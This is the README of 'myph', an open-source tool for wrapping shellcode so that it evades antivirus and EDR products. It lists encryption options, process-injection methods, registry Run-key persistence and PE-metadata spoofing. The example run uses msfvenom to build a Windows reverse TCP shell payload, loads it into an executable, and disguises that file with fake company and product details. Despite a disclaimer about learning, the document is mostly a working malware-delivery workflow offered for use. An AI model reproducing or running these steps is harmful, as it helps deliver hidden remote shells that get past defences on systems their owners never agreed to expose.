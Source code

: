 # myph

AV/EDR bypass payload creation tool

## Disclaimer

The access to and the use of the information on this repository is free of charge,
but implies the tacit acceptance by the user of the following conditions, without prejudice to the applicable legal provisions.
The user acknowledges that this repository is intended for informational purposes only and therefore serves only
for general information and testing. The tool and this repository are carefully compiled on the basis of good sources and references.

However, the developers cannot be held liable for for any damage, direct or indirect, of whatever nature as a result of
or related to the access to or use of the software.

> IOCs have voluntarily been added to the project. Don't open any issues regarding detections, it's pointless.
> The goal of this project is to learn & teach. If you want a FUD loader, dont be a baby and make your own.

## How to use the software ?

> Please note this project is under development & subject to changes.
> Breaking changes can be introduced from release to release.

### Compiling or Installing the project

You can easily compile like so:
```bash
# if you have make installed
make  # you can also use `make help` to check recipes

# if you don't
go build -o myph .
```

> You can also grab the latest release from [here](https://github.com/mato7sh/myph/releases/)

Finally, you can install from the [golang package repository](https://pkg.go.dev/github.com/mato7sh/myph) like so:
```bash
# /!\ lowercase is important /!\
go install github.com/cmepw/myph@latest
```

### Usage

```
Available Commands:
  completion  Generate the autocompletion script for the specified shell
  help        Help about any command
  spoof       spoof PE metadata using versioninfo

Flags:
      --api-hashing-type string   Hashing algorithm used for API hashing (default "DJB2")
  -d, --debug                     builds binary with debug symbols
  -e, --encryption encKind        encryption method. (allowed: AES, chacha20, XOR, blowfish) (default AES)
  -h, --help                      help for myph
  -k, --key string                encryption key, auto-generated if empty. (if used by --encryption)
  -f, --out string                output name (default "payload.exe")
  -z, --persistence string        name of the binary being placed in '%APPDATA%' and in 'SOFTWARE\Microsoft\Windows\CurrentVersion\Run' reg key (default: "")
  -p, --process string            target process to inject shellcode to (default "cmd.exe")
  -s, --shellcode string          shellcode path (default "msf.raw")
      --sleep-time uint           sleep time in seconds before executing loader (default: 0)
  -t, --technique string          shellcode-loading technique (allowed: CRT, CRTx, CreateFiber, ProcessHollowing, CreateThread, NtCreateThreadEx, Syscall, SyscallTest, Etwp, SetTimer) (default "CRT")
      --use-api-hashing           Use API Hashing
  -v, --version                   version for myph
```

#### Loader Methods

This tool supports few methods for now, but aims to add more as time goes on:
- Syscall
- CreateFiber
- CreateThread
- NtCreateThreadEx
- Process hollowing
- EnumCalendarInfoA
- CreateRemoteThread
- EtwpCreateEtwThread
- CreateRemoteThreadEx
- SetTimer

If you don't know what that is about, go check out [this repository](https://github.com/matro7sh/BypassAV) :)~


#### Example run

Generate a payload like so:

```bash
# generate your payload
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.2.2 LPORT=1234 -f raw -o msf.raw

# run myph (--shellcode is not mandatory here because we use the default value)
./myph --shellcode msf.raw --out something.exe

# you should find your payload here
file ./something.exe

# add some program metada
./myph spoof --pe something.exe --file .github/test-data/example.json
```

#### Using docker

```bash
# using makefile
make docker

# going through dockerfile directly
docker build . -t myph:latest
```

#### Editing file properties

A subcommand is available to edit a PE file's properties & change its icon or file version (for instance).
For more information on CLI usage, you can run:
```bash
# will give you a little help display
./myph spoof --help

# will edit demo.exe with the data specified in example.json
./myph spoof --pe demo.exe --file example.json
```

It expects a JSON file, containing the metadata you want to set. You can find an example in `.github/test-data` directory.

Information on resource types and language IDs can be found [here](https://learn.microsoft.com/en-us/windows/win32/menurc/resource-types) and [here](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-lcid/70feba9f-294e-491e-b6eb-56532684c37f).

You can set data depending on the language.
BMP, ICO, and PNG files are supported, and you can a wide array of information:

```json
{
  "RT_VERSION": {
    "#1": {
      "0000": {
        "fixed": {
          "file_version": "1.2",
          "product_version": "1.2.3",
          "flags": "Debug,Patched",
          "timestamp": "2020-12-18T23:00:00+01:00"
        },
        "info": {
          "0409": {
            "Comments": "that should do it",
            "CompanyName": "Smersh",
            "FileDescription": "smrsh 4 evr",
            "FileVersion": "1.2",
            "InternalName": "",
            "LegalCopyright": "GNU GPL v3",
            "LegalTrademarks": "",
            "OriginalFilename": "myph.exe",
            "PrivateBuild": "",
            "ProductName": "myph ldr",
            "ProductVersion": "1.2 release",
            "SpecialBuild": ""
          },
          "040C": {
            "Comments": "ca devrait le faire",
            "CompanyName": "Smersh",
            "FileDescription": "smrh pr tjrs",
            "FileVersion": "1.2",
            "InternalName": "",
            "LegalCopyright": "GNU GPL v3",
            "LegalTrademarks": "",
            "OriginalFilename": "myph.exe",
            "PrivateBuild": "",
            "ProductName": "myph ldr",
            "ProductVersion": "1.2 release",
            "SpecialBuild": ""
          }
        }
      }
    }
  }
}
```

### Contributing

Contributions are welcome, but please try to keep PRs short and issues descriptive. :)~

A guide on how to use the tool is in the works, please let us know if you're interested in helping out.
